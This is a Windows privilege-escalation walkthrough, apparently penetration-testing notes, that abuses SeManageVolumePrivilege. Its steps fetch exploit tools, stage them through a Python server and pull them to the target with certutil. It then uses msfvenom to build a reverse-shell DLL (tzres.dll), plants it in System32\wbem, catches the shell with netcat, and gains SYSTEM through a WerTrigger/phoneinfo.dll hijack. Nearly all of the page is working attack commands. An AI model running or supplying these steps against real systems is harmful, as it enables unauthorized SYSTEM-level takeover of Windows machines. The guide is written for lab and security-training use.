 ### **STEP 1: CHECK CURRENT USER PRIVILEGES**

1.  Verify if current user has SeManageVolumePrivilege privileges by running:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/153.png)


    **NOTE:** If it is not enabled, proceed to the next step to enable it.

### **STEP 2: ENABLE SETAKEOWNERSHIPPRIVILEGE (OPTIONAL)**

2.  Download the EnableAllTokenPrivs.ps1 script to enable SeManageVolumePrivilege.  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/154.png)


    **NOTE:** Host the EnableAllTokenPrivs.ps1 script Using Python `python -m http.server 80`
    
3.  Transfer the binary to the target machine using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/155.png)


    **NOTE:** To Enable the SeTakeOwnershipPrivilege privilege, import the script using:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
4.  Verify privileges,Ensure that SeManageVolumePrivilege is now enabled  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/156.png)

    

### **DLL HIJACKING WITH MESTASPLOIT**

1.  To write any files in the C:\\ drive and that includes System32 we need to download SeManageVolumeExploit.exe and transfer it to target machine  
    `wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe`  
    
    ![](../../../img/Windows-Environment/157.png)


    **NOTE:** After the download complete, host the file using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
2.  Use the following certutil commands to download the files to the target machine  
    `certutil -urlcache -f http://[IP-ADRESS]:80/SeManageVolumeExploit.exe SeManageVolumeExploit.exe`  
    
    ![](../../../img/Windows-Environment/158.png)

    
3.  After executing the exploit, we have gained write privileges to the `C:\Windows\System32\` folder.  
    
    ![](../../../img/Windows-Environment/159.png)

    
4.  Let's creat the .dll payload that will get us reverse shell. We will use msfvenom and name the payload tzres.dll.  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=1337 -f dll -o tzres.dll`  
    
    ![](../../../img/Windows-Environment/160.png)


    **NOTE:** Host the file using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
5.  Use the following certutil commands to download the payload to the target machine  
    `certutil -urlcache -f http://[IP-ADRESS]:80/tzres.dll tzres.dll`  
    
    ![](../../../img/Windows-Environment/161.png)


    **NOTE:** After transferring `tzres.dll` to the target machine, run the following command to place it in the wbem directory:  
    `copy tzres.dll C:\Windows\System32\wbem\`
    
6.  With that in place, set up your netcat listener on port 1337 on your attacking machine.  
    `rlwrap -cAr nc -lnvp 1337`  
    
    ![](../../../img/Windows-Environment/162.png)


    **NOTE:** run `systeminfo` to trigger the payload
    

### **EXPLOIT WITH WERTRIGGER**

1.  To write any files in the C:\\ drive and that includes System32 we need to download SeManageVolumeExploit.exe and transfer it to target machine  
    `wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe`  
    
    ![](../../../img/Windows-Environment/163.png)


    **NOTE:** After the download complete, host the file using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
2.  After executing the exploit, we have gained write privileges to the `C:\Windows\System32\` folder.  
    
    ![](../../../img/Windows-Environment/164.png)

    
3.  Download the required exploit executables and DLL file using the commands provided below.  
    `wget https://github.com/sailay1996/WerTrigger/raw/master/bin/WerTrigger.exe`  
    `wget https://github.com/sailay1996/WerTrigger/raw/master/bin/phoneinfo.dll`  
    `wget https://raw.githubusercontent.com/sailay1996/WerTrigger/master/bin/Report.wer`  
    `cp /usr/share/windows-resources/binaries/nc.exe .`  
    
    ![](../../../img/Windows-Environment/165.png)


    **NOTE:** After the downloads are complete, host the files using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
4.  Use the following certutil commands to download the files to the target machine  
    `certutil -urlcache -f http://[IP-ADRESS]:80/WerTrigger.exe WerTrigger.exe`  
    `certutil -urlcache -f http://[IP-ADRESS]:80/phoneinfo.dll phoneinfo.dll`  
    `certutil -urlcache -f http://[IP-ADRESS]:80/nc.exe nc.exe`  
    `certutil -urlcache -f http://[IP-ADRESS]:80/Report.wer Report.wer`  
    
    ![](../../../img/Windows-Environment/166.png)

    
5.  Copy `phoneinfo.dll` to `C:\Windows\System32\`, place `Report.wer` and `WerTrigger.exe` in the same directory, and then run `WerTrigger.exe`.  

    ![](../../../img/Windows-Environment/167.png)


    **NOTE:** WerTrigger.exe will not produce any output and will just wait for you to type the instructions you want to perform.
    
6.  We have system level access on the target machine!  
    
    ![](../../../img/Windows-Environment/168.png)
